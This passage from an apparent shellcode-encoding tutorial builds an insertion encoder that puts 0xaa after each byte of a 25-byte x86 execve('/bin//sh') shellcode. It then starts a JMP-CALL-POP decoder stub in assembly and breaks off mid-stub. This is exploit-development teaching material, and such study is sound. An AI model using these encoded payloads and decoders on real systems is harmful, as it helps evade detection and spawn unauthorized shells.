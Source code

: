 And this is going to give us the new shellcode which has 0xaa inserted
in every even location. So now the length of the shellcode is actually
50 because the original shellcode length was 25.

Now, let me actually start writing the decoder program.

```asm
global _start

section .text
_start:



        EncodedShellcode: db 0x31,0xaa,0xc0,0xaa,0x50,0xaa,0x68,0xaa,0x2f,0xaa,0x2f,0xaa,0x73,0xaa,0x68,0xaa,0x68,0xaa,0x2f,0xaa,0x62,0xaa,0x69,0xaa,0x6e,0xaa,0x89,0xaa,0xe3,0xaa,0x50,0xaa,0x89,0xaa,0xe2,0xaa,0x53,0xaa,0x89,0xaa,0xe1,0xaa,0xb0,0xaa,0x0b,0xaa,0xcd,0xaa,0x80,0xaa
```

And now let me go back on writing the decoder stub. Just like what
we've done before I'll get the encoded shellcode address using 
JMP-CALL-POP technique, so we have

```asm
global _start

section .text
_start:

        jmp short call_shellcode

decoder:
        pop esi

decode:

call_shellcode:

        call decoder
        EncodedShellcode: db 0x31,0xaa,0xc0,0xaa,0x50,0xaa,0x68,0xaa,0x2f,0xaa,0x2f,0xaa,0x73,0xaa,0x68,0xaa,0x68,0xaa,0x2f,0xaa,0x62,0xaa,0x69,0xaa,0x6e,0xaa,0x89,0xaa,0xe3,0xaa,0x50,0xaa,0x89,0xaa,0xe2,0xaa,0x53,0xaa,0x89,0xaa,0xe1,0xaa,0xb0,0xaa,0x0b,0xaa,0xcd,0xaa,0x80,0xaa
```

Now, we basically want to take every odd value and replace 0xaa with
this value and so on. So we need a counter which increments and allows
us to do that. Hovewer, we need two counters. One is to keep track
of the next 0xaa and second for tracking the original shellcode byte.

So let me use `edi` as the other counter which tracks along encoded
shellcode

```asm
decoder:
        pop esi
        lea edi, [esi + 1]
```
